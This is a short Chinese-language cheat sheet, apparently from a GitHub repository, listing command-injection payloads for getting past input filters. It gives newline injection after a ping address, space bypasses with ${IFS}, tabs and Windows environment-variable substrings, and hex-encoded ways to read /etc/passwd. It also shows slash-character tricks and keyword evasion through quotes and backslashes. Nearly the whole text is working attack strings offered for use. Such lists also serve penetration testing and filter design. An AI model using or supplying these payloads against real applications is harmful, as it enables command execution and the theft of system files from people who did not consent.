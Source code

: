 - 换行符

```
127.0.0.1%0Awhoami
127.0.0.1%5C%0Awhoami
```

- 绕过空格过滤（IFS、输入重定向、Hex编码、空白符替换、Windows环境变量字串）

```shell
cat${IFS}/etc/passwd
ls${IFS}-la

cat</etc/passwd

X=$'uname\x20-a'&&$X

ls%09-la%09/home
```
```cmd
echo 333%ProgramFiles:~10,-5%4444
ping%CommonProgramFiles:~10,-18%127.0.0.1
ping%PROGRAMFILES:~10,-5%127.0.0.1
```

- ASCII扩展（`$'\x20\x00'`）

```shell
# `` 和 $() 中的内容会被当做命令运行
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`

abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc

`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`

cat `xxd -r -p <<< 2f6574632f706173737764`
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```

- 绕过符号过滤（`/`）

```shell
${HOME:0:1}

$(echo . | tr '!-0' '"-1')
`echo . | tr '(-0' ')-1'`
```

- 绕过关键词过滤

```shell
who'am'i
c"a"t /etc/pass'w'd
wh\o\a\mi
who``ami
who$()ami

x=/et000c/pa000sswd;echo ${x//000/}

# 用别的命令 如
base64 /etc/passwd
```
